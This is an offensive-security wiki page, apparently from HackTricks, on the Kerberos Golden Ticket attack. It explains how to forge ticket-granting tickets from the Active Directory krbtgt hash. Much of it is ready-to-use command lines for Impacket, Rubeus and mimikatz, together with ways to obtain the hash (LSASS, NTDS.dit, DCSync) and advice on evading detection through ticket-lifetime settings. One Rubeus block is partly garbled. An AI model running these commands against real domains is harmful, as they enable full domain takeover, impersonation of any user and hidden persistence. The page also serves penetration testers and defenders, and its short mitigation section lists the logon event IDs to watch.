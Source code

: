 # Golden Ticket

{{#include ../../banners/hacktricks-training.md}}

## Golden ticket

A **Golden Ticket** attack consist on the **creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user** through the use of the **NTLM hash of the Active Directory (AD) krbtgt account**. This technique is particularly advantageous because it **enables access to any service or machine** within the domain as the impersonated user. It's crucial to remember that the **krbtgt account's credentials are never automatically updated**.

To **acquire the NTLM hash** of the krbtgt account, various methods can be employed. It can be extracted from the **Local Security Authority Subsystem Service (LSASS) process** or the **NT Directory Services (NTDS.dit) file** located on any Domain Controller (DC) within the domain. Furthermore, **executing a DCsync attack** is another strategy to obtain this NTLM hash, which can be performed using tools such as the **lsadump::dcsync module** in Mimikatz or the **secretsdump.py script** by Impacket. It's important to underscore that to undertake these operations, **domain admin privileges or a similar level of access is typically required**.

Although the NTLM hash serves as a viable method for this purpose, it is **strongly recommended** to **forge tickets using the Advanced Encryption Standard (AES) Kerberos keys (AES128 and AES256)** for operational security reasons.

```bash:From Linux
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

```bash:From Windows
# Rubeus
## The /ldap command will get the details from the LDAP (so you don't need to put the SID)
## The /printcmd option will print the complete command if later you want to generate a token offline
.\Rubeus.exe asktgt /user:Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt /ldap /nowrap /printcmd

 /rc4:25b2076cda3bfd6209161a6c78a69c1c /domain:jurassic.park /ptt
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```

**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

### Bypassing common detections

The most frequent ways to detect a golden ticket are by **inspecting Kerberos traffic** on the wire. By default, Mimikatz **signs the TGT for 10 years**, which will stand out as anomalous in subsequent TGS requests made with it.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

```
Get-DomainPolicy | select -expand KerberosPolicy
```

Unfortunately, the TGT's lifetime is not logged in 4769's, so you won't find this information in the Windows event logs. However, what you can correlate is **seeing 4769's without a prior 4768**. It's **not possible to request a TGS without a TGT**, and if there is no record of a TGT being issued, we can infer that it was forged offline.

In order to **bypass this detection** check the diamond tickets:

{{#ref}}
diamond-ticket.md
{{#endref}}

### Mitigation

- 4624: Account Logon
- 4672: Admin Logon
- `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Other little tricks defenders can do is **alert on 4769's for sensitive users** such as the default domain administrator account.

## References

- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{{#include ../../banners/hacktricks-training.md}}



